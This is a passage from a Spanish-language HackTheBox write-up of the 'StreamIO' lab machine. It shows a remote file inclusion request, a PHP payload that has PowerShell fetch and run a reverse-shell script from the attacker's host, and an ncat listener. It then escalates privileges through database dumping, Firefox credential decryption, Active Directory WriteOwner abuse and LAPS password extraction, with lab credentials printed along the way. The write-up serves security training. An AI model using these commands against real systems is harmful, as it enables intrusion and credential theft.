Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origi: https://streamio.htb

Dnt: 1
Sec-Gpc: 1
Referer: https://streamio.htb/admin/?movie=
Upgrade-Insecure-Requets: 1

Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
include=http://10.10.16.7/php_revershell.php
```

Realizamos la petición por el método post



Vemos que efectivamente se realiza una petición contra nuestro servidor.

```python
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.158 - - [25/Mar/2024 17:08:30] code 404, message File not found
10.10.11.158 - - [25/Mar/2024 17:08:30] "GET /asd.php HTTP/1.0" 404 -
```

Para obtener una revershell seguiremos los siguientes pasos:

1. Descargaremos `Invoke-PowerShellTcp.ps1` y en la ultima linea debemos de poner la linea de codigo para que se ejecute.

 2. Iniciar un servidor en el `8000` del directorio donde se encuentra el archivo `Invoke-PowerShellTcp.ps1`.
 
```python
❯ python3 -m http.server 8000
```

3. Ahora crearemos un archivo `php_revershell.php` que contendrá:

```python
system('powershell -c iex(new-object net.webclient).downloadString("http://10.10.16.7:808/Invoke-PowerShellTcp.ps1")')
```

4. Luego iniciaremos otro servidor en el puerto `80` donde se encuentra nuestro archivo `php_revershell.php`

```python
❯ python3 -m http.server 80

```

5. Finalmente debemos de ponernos a la escucha con `ncat`

```python
❯ rlwrap ncat -lnvp 443
```

Luego debemos de hacer la petición a nuestro servidor con el nombre de nuestro archivo, que en nuestro caso es  `php_revershell.php`.



# Escalada de privilegios

## Usuario - yoshihide



Luego de obtener la shell como el usuario `yoshihide`, enumeraremos la base de datos `streamio_backup` a la que no podíamos acceder desde la inyección sql

```python
PS C:\inetpub\streamio.htb\admin> sqlcmd -U db_admin -P 'B1@hx31234567890' -S localhost -d streamio_backup -Q 'select table_name from information_schema.tables;'
```



Enumernado las tablas encontramos con una que es `users` y lo que haremos sera ver el contenido y verificar si es igual a la anterior que nos encontramos en la base de datos `streamio`.

```python
PS C:\inetpub\streamio.htb\admin> sqlcmd -U db_admin -P 'B1@hx31234567890' -S localhost -d streamio_backup -Q 'select table_name from information_schema.tables;'
```



Vemos que son distintas y lo que haremos sera crackerlas
## Usuario - nikk73

Tenemos las credenciales de `nikk37` por la que procederemos a validarlas contra el la maquina victima



```python
get_dem_girls2@yahoo.com (nikk37)
```

Haciendo uso de `netexec` podremos validar las credenciales

```python
❯ netexec winrm 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
```



Podemos ver que las credenciales son validas por lo que haciendo uso de `evil-winrm` podremos ingresar como `nikk37`.



Enumerando los directorios encontraremos algo interesante, que es algunas credenciales de una perfil de usuario del navegador.



### Credenciales de Firefox

Luego de descargarnos los archivos necesarios lo que haremos es obtener las credenciales con `firefox_decrypt.py`

```python
❯ python3 firefox_decrypt.py /home/b0ysie7e/seven/hackthebox/maquinas/StreamIO/content/firefox
2024-03-25 22:37:29,521 - WARNING - profile.ini not found in /home/b0ysie7e/seven/hackthebox/maquinas/StreamIO/content/firefox
2024-03-25 22:37:29,522 - WARNING - Continuing and assuming '/home/b0ysie7e/seven/hackthebox/maquinas/StreamIO/content/firefox' is a profile location

Website:   https://slack.streamio.htb
Username: 'admin'
Password: 'JDg0dd1s@d0p3cr3@t0r'

Website:   https://slack.streamio.htb
Username: 'nikk37'
Password: 'n1kk1sd0p3t00:)'

Website:   https://slack.streamio.htb
Username: 'yoshihide'
Password: 'paddpadd@12'

Website:   https://slack.streamio.htb
Username: 'JDgodd'
Password: 'password@12'
```

Obtenemos credenciales que validaremos contra el servicio `smb` haciendo uso de `netexec`

```python
❯ netexec smb 10.10.11.158 -u users2.txt -p passwords.txt
```



Podemos observar que las credenciales: `JDgodd : JDg0dd1s@d0p3cr3@t0r` son validas, pero no podemos ingresar porque no pertenecemos al grupo `remote management`


## Usuario - JDgodd

Haciendo uso de las credenciales, enumeraremos el sistema con `bloodHound`

```python
❯ bloodhound-python -d streamio.htb -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' -c all -ns 10.10.11.158
```

Encontramos que el usuario `JDgodd` tiene permisos de `writeowner` contra el grupo `Core Staff` y este tiene permisos de `ReadLAPSPassword` del dominio



### write owner

Para explotar esto, haremos uso de `PowerView.ps1` y asi agregar al usuario `JDgodd` al grupo `Core Staff`

```python
*Evil-WinRM* PS C:\Users\nikk37\files> Import-Module .\PowerView.ps1
```

Asignamos las variables del usuario al cual agregaremos al grupo

```python
*Evil-WinRM* PS C:\Users\nikk37\files> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\files> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)

```

Añadimos al grupo al usuario `JDgodd`

```python
*Evil-WinRM* PS C:\Users\nikk37\files> Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity "streamio\JDgodd" -Cred $cred
*Evil-WinRM* PS C:\Users\nikk37\files> Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity "streamio\JDgodd" -Cred $cred -Rights All

*Evil-WinRM* PS C:\Users\nikk37\files> Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'streamio\JDgodd' -Cred $cred
```

Luego podemos verificar si el usuario pertenece al grupo, efectivamente este ahora ya pertenece al grupo.



Para entender mejor podemos visitar : 
- [https://notes.shashwatshah.me/windows/active-directory/writeowner](https://notes.shashwatshah.me/windows/active-directory/writeowner)
### Read Laps Password

Ahora teniedo al usuario en el grupo `core Staff` y este tiene permisos de `ReadLAPSpassword` podremos leer las credenciales del usuario administrador.

- [https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password)
Para esto podemos usar `ldapsearch` o `bloodyAd` que en mi caso será esta ultima que usare:

```python
❯ python3 bloodyAD/bloodyAD.py -u 'JDgodd' -d streamio.htb -p 'JDg0dd1s@d0p3cr3@t0r' --host 10.10.11.158 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

distinguishedName: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: /2Mq7iLWQrajdn
ms-Mcs-AdmPwdExpirationTime: 133560178409993118

```

Validando las credenciales podemos ver que son validas 



## Usuario - administrator



